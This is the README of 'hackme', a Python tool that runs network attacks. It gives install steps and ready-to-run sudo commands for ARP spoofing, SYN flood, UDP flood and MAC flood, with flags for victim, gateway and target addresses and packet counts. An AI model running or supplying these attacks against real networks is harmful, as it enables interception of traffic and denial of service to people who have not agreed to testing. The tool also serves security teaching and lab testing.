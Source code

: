 
# Hack Me

![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54)
![Linux](https://img.shields.io/badge/Linux-FCC624?style=for-the-badge&logo=linux&logoColor=black)
[![GitHub license](https://img.shields.io/github/license/nadzyah/hackme?style=for-the-badge)](https://github.com/nadzyah/hackme/blob/main/LICENSE)

A collection of scripts that implement different network attacks. **For information purposes only.** 

Any contributor to this project doesn't take any responsibility for illegal usage of any script from this project.

# Installation and Usage

The tested environment:
* Python v3.10
* Ubuntu 22.04 LTS

Make sure that `python3-scapy` is installed on your system: `sudo apt-get install python3-scapy`

You can either run hackmeapp from a checkout of the code, or install it like any other python project. Keep in mind that a lot of scripts here can be executed only with the root privileges, so you need to run it with sudo.

```bash
$ sudo pip3 install hackme
$ sudo hackme
usage: hackmeapp.py [-h] [--debug] {attack} ...
```

To enter the debug mode, use the `--debug` option after the `hackme` command.

To get the attack description in the terminal, enter `hackme <attack> --desc`


# Implemented Attacks

The following commands include the `--debug` option, which is not required to execute an attack.

## ARP Spoofing

You can read about ARP spoofing attack [here](https://www.wikiwand.com/en/ARP_spoofing).

Example usage:

```bash
$ sudo hackme --debug arpspoof -i wlp2s0 -m aa:aa:aa:aa:aa:aa -gm BB-BB-BB-BB-BB-BB -gip 192.168.0.1 -vm cc:cc:cc:cc:cc:cc -vip 192.168.0.108
```
where:
* `wlp2s0` — your network interface
* `aa:aa:aa:aa:aa:aa` — the interface MAC-address (can be written as `AA:AA:AA:AA:AA:AA`, `AA-AA-AA-AA-AA-AA` and `aa-aa-aa-aa-aa-aa`)
* `bb:bb:bb:bb:bb:bb` — the gateway's MAC-address
* `192.168.0.1` — the gateway's IP-address
* `cc:cc:cc:cc:cc:cc` — the victim's MAC-address
* `192.168.0.108` — the victim's IP-address

Run `sudo hackme arpspoof --help` to get more information.

## SYN Flood

You can read about SYN flood attack [here](https://www.wikiwand.com/en/SYN_flood).

Example usage:
```bash
$ sudo hackme --debug synflood -d 172.17.17.10 -p 443 -c 1000
```
where:
* `172.17.17.10` — server's IP-address
* `443` — server's port
* `1000` — the number of packets to be sent

Run `sudo hackme synflood --help` to get more information.

## UDP Flood

You can read about UDP flood attack [here](https://www.wikiwand.com/en/UDP_flood).

Example usage:
```bash
$ sudo hackme --debug udpflood -d 172.17.17.10 -p 53 -c 1000
```
where:
* `172.17.17.10` — server's IP-address
* `53` — server's port
* `1000` — the number of packets to be sent

Run `sudo hackme udpflood --help` to get more information.

## MAC Flood

You can read about MAC flood attack [here](https://www.wikiwand.com/en/MAC_flooding).

Example usage:
```bash
$ sudo hackme --debug macflood -i lxdbr0 -vm "aa:aa:aa:aa:aa:aa" -c 100000
```
where:
* `lxdbr0` — your network interface
* `aa:aa:aa:aa:aa:aa` — the victim's MAC-address (can be written as `AA:AA:AA:AA:AA:AA`, `AA-AA-AA-AA-AA-AA` and `aa-aa-aa-aa-aa-aa`)
* `100000` — the number of packets to be sent

Run `sudo hackme macflood --help` to get more information.

